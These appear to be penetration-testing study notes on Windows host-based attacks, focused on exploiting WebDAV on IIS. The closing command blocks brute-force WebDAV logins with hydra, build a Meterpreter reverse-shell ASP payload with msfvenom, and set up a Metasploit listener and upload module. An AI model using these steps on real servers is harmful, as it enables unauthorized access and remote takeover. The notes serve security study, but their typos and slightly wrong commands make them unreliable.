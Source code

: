 ## Introduction To Host Based 
+ atttacks are targerted toward a specfic system
+ System Host based attak are use play after you have gained access to a traget network
+ Misconfiguration in OS and inherent vulnerabilites 
+ Much more specialized

## Windows Vulnerabilites 
+ Severe vulnerabilites raninging from Conflicker ato eternal blue
+ Windows OS developed in C programming so BoF
+ By Default is not configured to run securly
+ New Vulenrabilites are not immediatly patched by Microsoft
+ WIndows also vulenrable to cross platform vulnerabilites for example SQL injection
+ Physical attacks like theft
+ Information disclouse - allows attacker to access confidentail data
+ BoF - allow attacker to write data to buffer and ovverun and write data to allocated memory addresss
+ RCE - runs attacker to remolty exeucted code
+ Pirvilege escalte- elevate privilages
+ DoS - allows an attacker to consume a system or host resources


+ TCP 80/443 Microsft IIS Web Server
+ WEBDAV 80/443 TCP allows HTTP extension Update Delte move and COpy
+ SMB 445 Network file shares on LAN network 
+ RDP TCP 3389 GUI remote access protocls
+ WinRM TCP 5986/443 Windows Remote manamgment protocl that can used to remote access to Windows System

## WebDav
+ Web Server by microsoft
+ statict and web pages supports asp, aspx,config,php
+ ROBUST GUI
+ WebDav extension to HTP protocol port 80/443
+ Check wheter webdav has been configured to run on the ISS web Server
+ davtest used to scan or authenticate and exploit webdav server
+ cadaver to upload and downlaod files from webdav servers

```
nmap -sV 80 --script=http-enum ip
hydra -L /usr/share/wordlists/metasploit/common_user.txt -p /usr/share/wordlists/metasploit/common_password.txt DOMAIN_IP http-get /webdav/
davtest -url URL_CONNECTION
davtest -auth username:password -url
cadaver URL
path for web shells /usr/share/webshells/
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp

msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
run 

use windows/iis/iss_webdav_upload_asp
set HttpUsername bob
set HtttpPassword password
set RHOST RemoteIP
set RPORT remote port
set PATH path_name

```